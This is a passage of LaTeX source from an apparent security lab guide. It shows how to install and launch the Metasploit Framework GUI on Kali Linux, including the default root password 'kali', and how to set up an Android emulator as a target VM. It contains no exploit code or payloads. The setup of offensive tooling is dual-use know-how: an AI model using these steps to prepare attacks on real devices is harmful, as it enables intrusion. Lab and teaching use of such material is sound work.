    
\includegraphics[scale=0.5]{pics/meta1.PNG}
    \caption{Metasploit Framework's GitHub page}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/meta2.PNG}
    \caption{Terminal asks for root access}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/meta3.PNG}
    \caption{Terminal completed installing package}
    \label{fig:fig11}
\end{figure}
\subsection{Graphical User Interface (GUI) installation}
To install the Graphical User Interface (GUI) go to the following GitHub url:\\ \url{https://github.com/scriptjunkie/msfgui}\\\\
Thereafter run the following command in the terminal (Preferably change the directory to the Desktop beforehand):
\begin{minted}
[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
bgcolor=LightBlue,
fontsize=\footnotesize,
breaklines,
breaksymbolleft=\carriagereturn
]
{Shell}
cd ~/Desktop
git clone https://github.com/scriptjunkie/msfgui.git
\end{minted}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.4]{pics/meta4.PNG}
    \caption{GUI folder added to the Desktop}
\end{figure}
A directory titled \texttt{msfgui} will now to added to your Desktop. To run the GUI the following steps have to be carried out.\\
Firstly change directories to the following: \texttt{/opt/metasploit-framework/bin}. This can be done by running the command below in the terminal.
\begin{minted}
[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
bgcolor=LightBlue,
fontsize=\footnotesize,
breaklines,
breaksymbolleft=\carriagereturn
]
{Shell}
cd /opt/metasploit-framework/bin
\end{minted}
Thereafter run the \texttt{msfconsole} shell script. This can be done by running the command below.
\begin{minted}
[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
bgcolor=LightBlue,
fontsize=\footnotesize,
breaklines,
breaksymbolleft=\carriagereturn
]
{Shell}
sudo ./msfconsole
\end{minted}
If you are prompted for a root password, Enter: \texttt{kali}. Thereafter, If you are prompted with the following: \textit{"Would you like to use and setup a new database (recommended)?"}, Type \textbf{n} or \textbf{no} and press \textbf{Enter}.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/startm1.PNG}
    \caption{Type 'n' for No}
\end{figure}
Thereafter once ever thing is completed you should see that the terminal now has changed its prompt to the following.
\begin{minted}
[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
bgcolor=LightBlue,
fontsize=\footnotesize,
breaklines,
breaksymbolleft=\carriagereturn
]
{Shell}
msf6 > _
\end{minted}
This is shown in the picture below. This means that the Metasploit Framework has started up its service in the terminal. With this being done we can now move on to the next step of running the Graphical User Interface (GUI). Firstly you will have to open up a new terminal and change directories to the Desktop. So we can access the directory that was recently created i.e. \texttt{msfgui}. The commands are shown after Figure~\ref{fig:fig12}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/startm2.PNG}
    \caption{Type 'n' for No}
    \label{fig:fig12}
\end{figure}
\begin{minted}
[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
bgcolor=LightBlue,
fontsize=\footnotesize,
breaklines,
breaksymbolleft=\carriagereturn
]
{Shell}
cd ~/Desktop/msfgui
\end{minted}
Thereafter run the \texttt{msfgui} shell script. This can be done by running the command below.
\begin{minted}
[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
bgcolor=LightBlue,
fontsize=\footnotesize,
breaklines,
breaksymbolleft=\carriagereturn
]
{Shell}
./msfgui
\end{minted}
Make sure the other terminal that is running the Metasploit command line is also running when the above mentioned command is run. If you are shown the prompt below. Click on \textbf{Yes}.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.4]{pics/prompt1.PNG}
\end{figure}
Thereafter another window will pop up. Let it automatically make a choice. If it does not close, then click on the option \texttt{Start new msfrpcd} as shown in the figure below.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.4]{pics/prompt2.PNG}
\end{figure}
The Metasploit Framework Graphical User Interface (GUI) will now be up and running. This is shown in the figure below.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.4]{pics/metaguimain.PNG}
    \caption{The main screen for the Metasploit Framework GUI}
\end{figure}
\section{Android Emulation}
For the first scenario covered in Section~\ref{sec:sec1} we will utilise an Emulator to virtualise an Android phone. This is keeping in line with the topic of virtualisation mentioned in Section~\ref{sec:sec2}. To emulate such a device you will need the Android Software Development Kit (SDK) or an ISO image which can be downloaded for VirtualBox. The SDK can be downloaded from the following url: \url{https://developer.android.com/studio}. Below is a screenshot of this page.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.4]{pics/as1.PNG}
    \caption{Homepage of Android Studio}
\end{figure}
The url for the ISO image can be acquired from the Android-x86 Project's site located at: \url{https://www.android-x86.org/}\\
Below is screenshot of this site.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/andro-proj.PNG}
    \caption{Homepage of Android-x86}
\end{figure}
Once the ISO image has been downloaded create a new virtual machine in VirtualBox and attach the ISO. Thereafter assign the default recommended amounts of Processors, Storage, Memory etc. as was done with Kali Linux above. Below is a screenshot of the VM once it has been set up.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/andro-proj2.PNG}
    \caption{Android VM main screen}
\end{figure}
% Therefore open up the link in the browser of Kali Linux and click on button \textbf{Download Android Studio}. Thereafter Agree to the Terms and Conditions and click on the \textbf{Download Android Studio} button once again.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/as2.PNG}
%     \caption{Agree to the terms and conditions}
% \end{figure}
% After the file has been downloaded you will see it is a \texttt{tar.gz} file. You can extract it to the Desktop either using the command line or the File Explorer. Below both options are shown. Run the following command in a terminal where the file was downloaded.
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% tar -xf filename.tar.gz -C /home/kali/Desktop
% \end{minted}
% The figure below shows a folder named \texttt{android-studio} created on the Desktop.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/as3.PNG}
%     \caption{File extracted with the File Explorer}
% \end{figure}
% We can now start up Android Studio and thereafter create an Android phone emulator. You will have to run the \texttt{studio} shell script inside the Android Studio folder. This can be done by running the commands below.
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% cd ~/Desktop/android-studio
% \end{minted}
% Thereafter,
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% ./studio
% \end{minted}
% You will be prompted with \texttt{Import Android Studio Settings}. Choose the \textbf{Do not import settings} and click \textbf{Ok}.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/as4.PNG}
%     \caption{Do not import settings}
% \end{figure}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/as5.PNG}
%     \caption{Data Sharing screen}
% \end{figure}
% Choose any option for the Data Sharing screen
% \begin{multicols}{2}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as6.PNG}
% \end{figure}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as7.PNG}
% \end{figure}
% \end{multicols}
% Click \textbf{Next} on both of the above screens
% \begin{multicols}{2}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as8.PNG}
% \end{figure}
% \begin{figure}[H]
%     \centering
